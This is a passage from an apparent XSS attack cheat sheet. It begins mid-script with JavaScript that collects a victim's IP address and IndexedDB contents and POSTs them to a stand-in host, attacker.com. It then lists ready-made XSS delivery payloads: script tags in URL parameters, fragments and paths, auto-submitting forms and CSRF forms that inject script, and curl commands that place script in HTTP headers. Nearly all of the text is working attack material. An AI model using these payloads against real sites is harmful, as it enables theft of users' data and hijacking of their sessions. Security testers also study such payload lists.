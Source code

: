 ```javascript
  // Network and environment information
  ip: await (await fetch('https://api.ipify.org?format=json')).json(),
  indexed_db: await listAllIndexedDB(),
};

fetch('https://attacker.com/collect', {
  method: 'POST',
  headers: {'Content-Type': 'application/json'},
  body: JSON.stringify(data)
});
</script>
```

## XSS Delivery Methods

### URL-Based Delivery

```
# URL parameters
https://vulnerable.com/search?q=<script>alert('XSS')</script>

# Hash/fragment
https://vulnerable.com/#<script>alert('XSS')</script>

# Path-based (if reflected in page)
https://vulnerable.com/<script>alert('XSS')</script>
```

### Form-Based Delivery

```html
<!-- Automatic form submission -->
<body onload="document.forms[0].submit()">
<form action="https://vulnerable.com/process" method="POST">
  <input name="comment" value="<script>alert('XSS')</script>">
</form>
</body>

<!-- CSRF to deliver XSS -->
<form id="xss" action="https://vulnerable.com/profile/update" method="POST">
  <input type="hidden" name="bio" value="<script>alert('XSS')</script>">
</form>
<script>document.getElementById("xss").submit();</script>
```

### HTTP Header Injection

```bash
# User-Agent header
curl -H "User-Agent: <script>alert('XSS')</script>" https://vulnerable.com

# Referer header
curl -H "Referer: <script>alert('XSS')</script>" https://vulnerable.com

# X-Forwarded-For header
curl -H "X-Forwarded-For: <script>alert('XSS')</script>" https://vulnerable.com
```
